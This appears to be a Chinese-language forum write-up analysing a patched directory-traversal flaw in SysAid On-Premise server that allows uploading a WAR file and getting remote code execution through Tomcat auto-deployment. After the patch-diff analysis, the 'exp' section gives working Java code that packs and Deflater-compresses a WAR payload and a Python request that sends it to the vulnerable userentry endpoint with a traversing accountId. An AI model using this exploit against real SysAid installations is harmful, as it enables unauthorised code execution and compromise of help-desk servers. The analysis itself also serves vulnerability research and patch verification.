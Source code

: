 公告
==

<https://www.sysaid.com/blog/service-desk/on-premise-software-security-vulnerability-notification>

说是有一个目录穿越可以传war包，导致rce了。

下载
==

<https://cdn3.sysaid.com/OnPremInstall/23.3.36/SysAidServer64.exe>

<https://cdn3.sysaid.com/OnPremInstall/23.3.35/SysAidServer64.exe>

安装需要试用证书，这个自己想办法，我没有，只是看了看diff。

补丁diff
======

com.ilient.server.UserEntry#doPost

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-742707b71e4f3c3e14b9047fc1ff720aeff0ea70.png)

修了目录穿越

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-a518227334bfa6f94ab310668c8fdecf93e12b02.png)

var4来自accountId参数，在a函数中存在目录穿越

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-d3a681d4d3d2b4e10d1da955381a12b4abcc3d2d.png)

最终会被拼接到文件路径中，并且写入`InflaterInputStream var29 = new InflaterInputStream(var1.getInputStream());`数据流

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-6af63dff0fcc3abe1f3c3b0afc8b91bea702dc79.png)

但是这里文件名是时间戳.zip，继续往后看还有一个a函数

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-f985ae0900a0cab80c8fb3528ba83ce1984a2526.png)

这里var1是accountid，解压时间戳.zip，var1可以跨目录，虽然判断了目录穿越`var10.getCanonicalPath().startsWith(var5 + File.separator)`，但是var1本来就是目录穿越的，所以判断没用。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-fb8bea255bd77e603629472fe4bacb39f76a8879.png)

这样就能自定义war包名字了，配合tomcat自动部署rce。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-3df2ade7a5c5ef1231ea84689e58226f478fcaf8.png)

构造exp
=====

实际利用发现需要绕过几个点

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-193891c6f2240680f4e721fc6c17d0b0d02d9ab4.png)

isLdapSupport会执行sql判断`count(ldap_id)>1`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-a7a338b0f61ed152d3b6c692073289ef1a1d8e9e.png)

最终是拼接accountid当作数据库名，然后查询判断`count(ldap_id)>1`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-ae561efc912f079b206100bfa1a127fd00a99295.png)

这里需要手动配置下后台（所以这个洞是非默认配置！！！）

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-7d0947a10d55bd4b5827017df35911a1b6311804.png)

默认数据库名是ilient

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-ce04663c1b4e8e224136df29e400d0c82da9f61c.png)

另外就是war包构造，需要用Deflater压缩一下

```java
import org.springframework.util.StreamUtils;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.util.zip.Deflater;
import java.util.zip.ZipEntry;
import java.util.zip.ZipOutputStream;

public class Main {
    public static void main(String[] args) throws IOException {
        FileOutputStream fileOutputStream = new FileOutputStream("1.zip");
        ZipOutputStream zipOutputStream = new ZipOutputStream(fileOutputStream);
        zipOutputStream.putNextEntry(new ZipEntry("haha.war"));
        zipOutputStream.write(StreamUtils.copyToByteArray(new FileInputStream("C:\\Users\\asd\\Desktop\\war\\w.war")));
        zipOutputStream.closeEntry();
        zipOutputStream.flush();
        zipOutputStream.finish();

        Deflater deflater = new Deflater();
        FileInputStream fileInputStream = new FileInputStream("1.zip");
        byte[] data = StreamUtils.copyToByteArray(fileInputStream);
        deflater.setInput(data);
        deflater.finish();
        byte[] output;
        ByteArrayOutputStream bos = new ByteArrayOutputStream(data.length);
        try {
            byte[] buf = new byte[1024];
            while (!deflater.finished()) {
                int i = deflater.deflate(buf);
                bos.write(buf, 0, i);
            }
            output = bos.toByteArray();
        } catch (Exception e) {
            output = data;
            e.printStackTrace();
        } finally {
            bos.close();
        }
        deflater.end();

        new FileOutputStream("1.dat").write(output);
    }
}
```

```python
import requests

proxy = {
'http':'http://localhost:8080'
}
headers = {
'Content-Type':'application/octet-stream'
}
r = requests.post('http://172.16.1.237:8080/userentry?accountId=ilient/../../../../tomcat/webapps&symbolName=LDAP_REFRESH_',headers=headers,data=open('1.dat','rb'),proxies=proxy)
```

python发包就能部署war包了。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-dbebbb65a69a9f209416ea480dc21e4f30ff088a.png)

总结
==

和@r4v3zn折腾了两三天才实现完整的构造，主要是卡在没许可证上了。装环境2小时，rce2分钟。